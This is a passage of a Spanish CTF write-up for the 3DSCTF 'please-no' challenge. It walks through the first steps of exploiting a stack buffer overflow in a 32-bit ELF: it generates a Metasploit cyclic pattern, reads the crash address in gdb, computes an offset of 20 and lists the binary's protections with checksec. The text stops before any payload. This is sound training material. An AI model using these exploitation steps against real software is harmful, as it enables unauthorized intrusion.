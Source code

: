 [EN]
This time the programmer did a better job to hid his flag. But the problem still: It’s vulnerable. Can you obtain the flag?
Send to 209.190.1.131 9003
NOW WITH SECRET BONUS!

[PT-BR]
Dessa vez o programador caprichou um pouco mais na hora de esconder sua flag. O problema que continua vulneravel. Consegue extrair a flag?
Envie para 209.190.1.131 9003
AGORA COM BONUS SECRETO!


Aquí hay soluciones que me han ayudado a entender como había que resolver este reto:
https://ctftime.org/task/3258

##Solución

Es un archivo elf de 32 bits que "peta" al leer una cadena, el clásico buffer overflow. Para ver el offset, primero creamos un patrón con metasploit:
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
Luego lo ejecutamos en gdb:
```
gdb -q ./please-no
Voltron loaded.
Reading symbols from ./please-no...(no debugging symbols found)...done.
>>> dashboard -output /dev/pts/1
>>> r
Starting program: /root/Documents/3DSCTF/please-no 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
Traceback (most recent call last):
File "<string>", line 764, in lines
File "<string>", line 127, in run
gdb.error: No function contains program counter for selected frame.
During handling of the above exception, another exception occurred:
Traceback (most recent call last):
File "<string>", line 249, in on_stop
File "<string>", line 300, in build
File "<string>", line 782, in lines
gdb.MemoryError: Cannot access memory at address 0x37614136
0x37614136 in ?? ()
>>> quit
```
Y por último calculamos el offset:
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 0x37614136
[*] Exact match at offset 20
```
Echemos un vistazo a las protecciones que tiene el binario:
```
gdb -q ./please-no
Reading symbols from ./please-no...(no debugging symbols found)...done.
gdb-peda$ checksec 
CANARY	: disabled
FORTIFY	: disabled
NX	: ENABLED
PIE	: disabled
RELRO	: Partial
```